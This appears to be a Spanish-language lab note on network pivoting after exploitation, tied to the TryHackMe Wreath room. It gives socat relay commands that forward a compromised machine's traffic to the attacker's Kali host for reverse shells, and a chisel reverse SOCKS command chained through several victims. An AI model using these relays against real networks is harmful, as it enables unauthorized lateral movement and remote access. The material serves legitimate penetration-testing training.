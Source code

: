
Hay que tener en cuenta que el pivoting forma parte de la Post-Explotación, osea que primero hay que conseguir explotar la máquina para poder pivotar a otras máquinas que estén en sus redes internas a las que nosotros como atacante no tenemos acceso.

Los [Socat](https://tryhackme.com/room/wreath) están en un archivo ZIP de la sala Wreath de Tryhackme, cuya contraseña es WreathNetwork, habría que descargarlo, descomprimirlo y mirar en la carpeta "Cats".

O lo podemos descargar desde estos enlaces:

[Socat Linux x32 y x64](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

[Socat Windows x32 y x64](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)


**Para redirigir el tráfico de las conexiones a nuestra máquina atacante tiramos de socat.

Por ejemplo, si necesitamos que nuestra víctima 2 haga conexión con nuestra máquina local ya sea para reverse shell o para ser explotada mediante algun servidor php o algo, tiene que pasar por la víctima 1 que ya ha sido explotada.

Entonces:

***-Víctima 1 se pone a la escucha con socat por el puerto 4343 para redirigir (fork) el tráfico a nuestra kali por el puerto 80/443 por ej:

```
./socat TCP-LISTEN:4343,fork TCP:IPkali:80
```

Ahora la víctima 2 le hace la petición a la víctima 1 para que esa petición sea redirigida hasta la máquina kali.

*Usar el puerto 80 cuando montemos un servidor web malicioso y el 443 cuando queramos una reverse shell.


**---CONCATENACIÓN DE PROXYS CON SOCAT Y CHISEL---

Cuando queramos pivotar con un dual proxy (o más) tenemos que hacer lo siguiente:

Queremos un túnel de la *víctima 2* para pivotar hasta ella.

```
./chisel client IPvictima1:2322 R:8888:socks
```

Pero tenemos que redirigir el tráfico desde la *víctima 1* hasta nuestra máquina de atacante

```
./socat TCP-LISTEN:2322,fork TCP:IPkali:1234
```

*De ésta forma redirigimos esa conexión de chisel de la víctima 2, con socat desde la víctima 1, hasta que hace la conexión a nuestra kali y tenemos el proxy en el localhost puerto 8888.

REDIRIGIR EL TRÁFICO SIEMPRE AL NODO MÁS CERCANO (que estén en la misma red).


